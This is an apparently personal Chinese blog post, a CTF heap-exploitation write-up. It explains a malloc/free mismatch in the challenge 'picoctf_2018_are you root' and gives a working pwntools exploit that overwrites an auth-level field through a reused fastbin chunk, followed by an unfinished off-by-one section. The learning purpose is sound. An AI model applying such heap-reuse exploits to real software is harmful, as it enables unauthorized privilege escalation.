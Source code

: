 # pwn初学者的进阶（三）：堆学习


## 0x00 前言
零零散散地看了两三天时间才把堆的一些基础内容与一道题看懂😑

## 0x01 picoctf_2018_are you root
[题目链接](https://buuoj.cn/challenges#picoctf_2018_are%20you%20root)

感天动地，我居然自己做出了一道堆题，虽然这题非常简单。

每次`login`的时候，chunk布局如下所示（假设输入用户名长度<=0x18）：
```
------------------
|       |  0x21 |  allocated
-----------------
|str_ptr| level |
------------------
|       |  0x21 |  allocated
-----------------
| str content.. |
------------------
    top chunk
```

这题的漏洞点在于，`malloc`与`free`的次数不匹配。程序中写入用户名时使用了`strdup`，**这个函数是隐含着`malloc`的调用的，而`reset`时又只进行了一次`free`调用。所以，正常的一次`login`与`reset`操作之后，chunk与fastbin的情况为：
```
------------------
|       |  0x21 |  allocated
-----------------
|str_ptr| level |
------------------
|       |  0x21 |  free
-----------------
| str content.. |
------------------
    top chunk

===================
fastbin: -> -----------------
            |       |  0x21 | 
            -----------------
            | str content.. |
            ------------------
```
所以这时再进行`login`，得到的就是写入了用户名内容的chunk，这是我们可控的。而代表auth-level的值就位于`ptr+0x8`，我们只要在第一次`login`的时候，把该处内容写为`\x05\x00\x00\x00\x00\x00\x00\x00`，然后`reset`，再`login`即可。

exp
```python
from pwn import *
context(os = 'linux', arch = 'amd64')
# context.log_level = 'debug'

p = remote('node4.buuoj.cn', 29378)

def get_flag():
    p.recvuntil(b'Enter your command:\n> ')
    p.sendline(b'get-flag')

def login(content: bytes):
    p.recvuntil(b'Enter your command:\n> ')
    p.sendline(b'login ' + content)

def reset():
    p.recvuntil(b'Enter your command:\n> ')
    p.sendline(b'reset')

payload = b'a'*0x8 + b'\x05'.ljust(8, b'\x00')

login(payload)
reset()
login(b'test')
get_flag()
p.interactive()
```

![image-20210906144421764](image-20210906144421764.png "flag截图")

ps: `#define DWORD __uint32_t`，所以`DWORD`在x86/x64都是**4字节**大小，而不是字面意思的2倍字长。

## 0x02 roarctf_2019_easy_pwn-【off_by_one+fastbin_attack+one_gadget+realloc】

这题可以算个很典型的off_by_one攻击例子。

先挖个坑，有时间来填。


